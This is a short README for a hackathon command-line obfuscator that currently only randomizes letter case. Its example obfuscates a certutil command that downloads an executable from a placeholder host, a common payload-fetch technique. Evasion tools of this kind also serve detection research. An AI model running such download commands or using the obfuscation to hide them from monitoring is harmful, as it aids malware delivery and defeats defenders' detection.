 # command-line-obfuscator
This is a work-in-progress for the 2025 Boot.Dev Hackathon!

## About

This project was inspired by [weitze](https://github.com/wietze)'s [ArgFuscator](https://github.com/wietze/ArgFuscator.net) tool.

## Installation

The tool works as is. simply clone the repo and run main.py. At this time this project does not require the installation of any dependancies.

```bash
git clone https://github.com/PaulyTheWalrus/command-line-obfuscator.git
cd command-line-obfuscator
```

## How to Use:

Running main.py will return an input prompt. Type or paste in your script or cmd command.

### Example:

```python
PS C:\Users\Pauly\main.py
Enter script: "certutil.exe -urlcache -f https://www.example.org/file.exe file.exe"
cErTUtIl.exe -urlcaCHE -f HtTps://WWW.EXAmple.Org/FilE.EXE fILE.ExE
```

### Current Progress:

This project is currently a work in progress. At this time the following features are available:

* Case Randomization
